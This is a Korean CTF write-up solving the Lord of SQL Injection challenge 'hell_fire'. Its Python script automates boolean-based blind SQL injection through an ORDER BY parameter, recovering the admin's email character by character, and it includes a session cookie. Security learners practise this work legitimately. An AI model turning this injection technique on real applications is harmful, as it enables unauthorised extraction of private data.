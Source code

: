 ```yaml
---
title: LOS - 23번 hell_fire
category: Lord of SQL Injection
---
```


# [23] hell_fire

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F5eUFD%2FbtrnVrPFyVL%2FKNGuBlPtjreZyWkhE4l4uk%2Fimg.png">

## 풀이

LoS 23번 Python 자동화 코드이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php"
    cookie = "sdrjk57hqa404dvtb3akcpfvk1"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 23을 시작합니다")

for num in range(0,100):
    param=f"?order=if(id='admin' and length(email)={num}, 'id', 'score')"
    if("200</td></tr><tr><td>rubiya" in send(param)):
        print(f"👏 email의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?order=if(id='admin' and ascii(substr(email,{len},1))>={middle}, 'id', 'score') %23"
        if("200</td></tr><tr><td>rubiya" in send(param)):
            param=f"?order=if(id='admin' and ascii(substr(email,{len},1))={middle}, 'id', 'score') %23"
            if("200</td></tr><tr><td>rubiya" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 email의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FODAqj%2FbtrnX0KUmP3%2FEyAtalWB84Fusk5ABdVFM0%2Fimg.png">

admin 계정의 email은 admin_secure_email@emai1.com 임을 확인할 수 있다.

* @ 뒷부분을 보면... emai1 이다. 깨알같은 함정?

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FboRpmQ%2Fbtrn14rH98w%2FwhuKJ6XRowVM23QGkUPvIK%2Fimg.png">